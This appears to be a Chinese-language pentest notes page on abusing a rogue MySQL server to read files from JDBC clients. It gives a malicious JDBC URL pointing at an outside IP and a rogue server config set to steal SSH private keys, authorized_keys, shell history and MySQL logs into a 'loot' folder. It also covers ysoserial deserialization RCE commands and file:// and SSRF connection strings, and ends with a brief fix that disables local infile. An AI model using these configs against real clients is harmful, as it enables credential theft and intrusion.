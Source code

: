 

## [**MySQL** 服务端恶意读取客户端任意文件漏洞]

<https://cloud.tencent.com/developer/article/1818089>

如果java的mysql的jdbc连接信息可以自定义，可以修改mysql的ip和连接配置如：
```
test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
jdbc:mysql://47.109.58.205:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
root
password
```
可以使用下方的项目伪造一个mysql服务，从而读取客户端的文件。
<https://github.com/rmb122/rogue_mysql_server>


^
```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/root/.bash_history","C:/boot.ini","/var/log/mysqld.log","/etc/os-release","/root/.mysql_history","/etc/issue","/root/.ssh/id_rsa","/var/log","/etc/ssh/sshd_config","/etc/crontab","/root/.ssh/authorized_keys","/root/.ssh/id_rsa.pub"]
save_path: ./loot
always_read: true
from_database_name: false
max_file_size: 0

auth: false
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']

```
```
/var/log/mysqld.log 可能有mysql密码
```

^
## **列目录和SSRF**
另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)\
E.g.

* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`




^
## **MySQL JDBC RCE 姿势**

mysql-connector-java >= 8.0.20, >= 5.1.49 中不可用。连接回显的时候可以看版本。
利用的jdbc反序列化RCE。
<https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b>\
<https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2>


## **修复读文件**
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。

```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```

